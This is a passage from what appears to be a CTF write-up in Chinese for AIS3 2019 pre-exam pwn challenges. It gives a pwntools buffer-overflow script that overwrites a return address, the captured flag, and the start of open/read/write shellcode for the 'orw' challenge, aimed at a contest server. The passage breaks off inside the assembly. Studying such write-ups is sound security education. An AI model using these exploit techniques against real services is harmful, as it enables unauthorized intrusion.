 ```python
if _ATT:
	log.info('Waiting for attach...')
	raw_input()

welcome_to_ais3_2019 = 0x0000000000400687

# dunno whyyyy
payload='A' * (48)
payload += p64(welcome_to_ais3_2019)

print r.recvline()
r.sendline(payload)
r.interactive()
```

```
AIS3{TOO0O0O0O0OO0O0OOo0o0o0o00_EASY}
```

### orw

這題只允許`open`, `read` 和 `write` 這幾個syscall

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context(arch='amd64', os='linux') # amd64
_ATT = 0
_local = 0

host = "pre-exam-pwn.ais3.org"
port = "10001"

if _local:
	r = process('./orw')
else:
	r = remote(host, port)

if _ATT:
	log.info('Waiting for attach...')
	raw_input()

sc = asm(
	'''
		jmp start
	orw:
		mov rax, 0x2
		pop rdi
		xor rsi, rsi
		xor rdx, rdx
		syscall

		mov rdi, rax
		xor rax, rax
		mov rsi, rsp
		mov rdx, 0x30
		syscall

		xor rax, rax
		mov al, 1
		xor rdi, rdi
		mov rdi, 1
		syscall
```